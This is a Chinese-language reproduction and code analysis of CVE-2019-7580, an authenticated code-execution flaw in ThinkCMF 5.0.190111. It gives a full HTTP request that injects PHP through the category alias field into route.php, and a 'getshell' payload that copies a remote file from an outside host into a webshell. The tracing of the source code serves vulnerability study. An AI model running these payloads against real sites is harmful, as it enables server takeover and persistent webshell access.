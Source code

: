 # CVE-2019-7580 ThinkCMF 5.0.190111 后台代码执行漏洞

### 一、漏洞简介

### 二、漏洞影响

ThinkCMF 5.0.190111

### 三、复现过程

0x01 利用过程：

后台登录状态下，

1、将payload插入数据库并读取然后写入data/conf/route.php文件


```bash
POST /portal/admin_category/addpost.html HTTP/1.1
Host: 127.0.0.1
Content-Length: 183
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=of2ar92rpeucrh4cg6s4t4dae6; admin_username=admin
Connection: close

parent_id=0&name=111&alias=1'%3D%3Earray(%22%22)%2Cphpinfo()%2C'2
```

2、然后访问：


```
/portal/admin_category/index.html
```

触发


```
include data/conf/route.php
```

操作，执行payload。下图以执行sleep(5)作为演示。

![](images/15893436875093.png)


![6f08c44f8eff4f31b44439031fa2f](images/6f08c44f8eff4f31b44439031fa2fc68.gif)


**补充**

poc只是phpinfo,用eval一句话，或者用fputs写马 等都会报错

直接getshell exp


```bash
1'=>array("",""),copy("http://t00ls.com/1.txt","1.php"),'2
```


这样网站也会崩掉

但是会再public下生成1.php

得快速连上，再清空thinkcmf\data\conf\route.php 文件

网站方可恢复正常

**0x02 利用过程与分析**

1、将payload插入数据库，写入data/conf/route.php文件

程序的入口是index.php,在index.php中\think\App::run()执行应用。

![](images/15893437399005.png)


在App.php的run()函数139行，执行sef::exec();

![](images/15893437465760.png)


通过解析url，得到处理此次请求的控制器、类、函数，即AdminCategoryController.php的addPost函数。然后调用self::invokeMethod()。

![](images/15893437536079.png)


通过反射执行AdminCategoryController.php的addPost函数。

在addPost函数中，从$this->request->param()函数中得到请求中的参数传递给$data。

![](images/15893437626996.png)


然后通过$this->validata调用父类(./simplewind/thinkphp/library/think/Controller.php)的validata函数进行过滤。然后将$data传入./app/portal/model/PortalCategoryModel.php的addCategory函数进行实际的"添加分类"操作。

![](images/15893437712165.png)


在addCategory函数中，184行这一句：


```bash
$findRoute = $this->where('full_url', $fullUrl)->find();
```

通过查询数据中是否存在对应的url，由于是第一次插入，所以这里并没有查到。

154行和155行通过setRoute函数对数据库进行了两次插入操作。

根入setRoute函数，

![](images/15893437901936.png)


其中$fullUrl和$url的值如截图所示。

继续跟，

![](images/15893437982460.png)


在34行从数据库中查询查询相关数据，


```bash
$routes      = $this->where("status", 1)->order("list_order asc")->select();
```

在addCategory函数的157行调用


```bash
$routeModel->getRoutes(true);
```

最终得到$allroutes的值,创建data/conf目录，然后拼接待写入的route.php文件的完整路径，最后调用file_put_contents()完成写入。可见这个漏洞在于没有对alias参数中的单引号进行过滤，导致可通过闭合前后的单引号插入用户可控的payload。

写入前后对比如下：

![](images/15893438259830.png)


2、触发payload执行

带着登录的cookie访问/portal/admin_category/index.html，调用routeCheck函数进行url路由检测

![](images/15893438339253.png)


这里先


```
include app/route.php
```

![](images/15893438551054.png)


然后，


```
include data/conf/route.php
```

![](images/15893438759763.png)


最终执行我们的payload：phpinfo()。

![](images/15893438822869.png)


参考链接

https://xz.aliyun.com/t/3997#toc-6